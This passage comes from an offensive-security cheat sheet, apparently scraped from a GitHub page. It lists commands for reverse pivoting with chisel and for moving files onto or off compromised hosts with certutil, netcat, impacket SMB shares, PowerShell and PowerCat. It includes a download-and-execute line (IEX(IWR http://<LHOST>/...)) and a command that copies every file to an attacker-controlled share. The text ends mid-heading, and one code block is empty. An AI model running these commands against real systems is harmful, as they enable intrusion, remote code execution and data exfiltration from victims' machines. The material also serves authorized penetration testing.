##### Reverse Pivot

```c
./chisel server -p 9002 -reverse -v
./chisel client <LHOST>:9002 R:3000:127.0.0.1:3000
```

##### SOCKS5 / Proxychains Configuration

```c
./chisel server -p 9002 -reverse -v
./chisel client <LHOST>:9002 R:socks
```

#### File Transfer

##### Certutil

```c
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Netcat

```c
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```

##### Impacket

```c
sudo impacket-smbserver <SHARE> ./
sudo impacket-smbserver <SHARE> . -smb2support
copy * \\<LHOST>\<SHARE>
```

##### PowerShell

```c
iwr <LHOST>/<FILE> -o <FILE>
IEX(IWR http://<LHOST>/<FILE>) -UseBasicParsing
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
```

##### FTPModule.ps1

```c

```

##### PowerCat

```c
powercat -c <IP> -p <PORT> -d -i <FILE>
powercat -l -p <PORT> -d -i <FILE>
```

##### Bash only
